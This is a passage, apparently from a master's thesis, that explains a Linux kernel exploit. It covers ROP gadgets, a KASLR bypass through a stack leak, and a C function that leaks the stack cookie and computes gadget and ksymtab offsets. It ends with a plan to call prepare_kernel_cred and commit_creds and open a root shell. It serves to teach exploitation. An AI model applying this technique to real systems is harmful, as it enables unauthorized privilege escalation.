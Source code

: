 \documentclass{masterthesis}
\begin{document}
The first two gadgets can be used to read an arbitrary memory block, by simply popping its address subtract by 0x10 to \texttt{RAX}. The third gadget is a normal \texttt{pop RDI} for functions' parameter.

\texttt{__ x86_retpoline_r15, swapgs_restore_regs_and_return_to_usermode, ksymtab}\\ are never randomized with respect to \texttt{_text}, and in particular both \texttt{commit\_creds} and \texttt{prepare\_kernel\_cred} keep the same offset inside \texttt{ksymtab}.
Instead, to find the base image, we need to inspect the stack when reading the module, look at a large amount of data and find an address located in the \texttt{_text} region.
Reading 320 bytes, we find at 304th byte an address that falls in the region of \texttt{_text}. From that value, we have to subtract the address of \texttt{_text} and find the base image.
\begin{figure}[h!]
  \caption{Find address in the stack in no randomize region}
   \label{figure:address_graphview}
\end{figure}

\begin{lstlisting}
void leak(void){
    unsigned n = 40;
    unsigned long leak[n];
    ssize_t r = read(global_fd, leak, sizeof(leak));
    cookie = leak[16];
    image_base = leak[38] - 0xa157ULL;
    kpti_trampoline = image_base + 0x200f10UL + 22UL;
    pop_RAX_ret = image_base + 0x4d11UL;
    read_mem_pop1_ret = image_base + 0x4aaeUL;
    pop_RDI_RBP_ret = image_base + 0x38a0UL;
    ksymtab_prepare_kernel_cred = image_base + 0xf8d4fcUL;
    ksymtab_commit_creds = image_base + 0xf87d90UL;

    printf("[*] Leaked %zd bytes\n", r);
    printf("    --> Cookie: %lx\n", cookie);
    printf("    --> Image base: %lx\n", image_base);
}
}
\end{lstlisting}
At this point, we have four stages:
\begin{enumerate} 
\item Leaking \texttt{commit\_creds()};   
\item Leaking \texttt{prepare\_kernel\_cred};
\item Calling \texttt{prepare\_kernel\_cred(0)};
\item Calling \texttt{commit\_creds()} and opening root shell.
\end{enumerate}
\end{document}
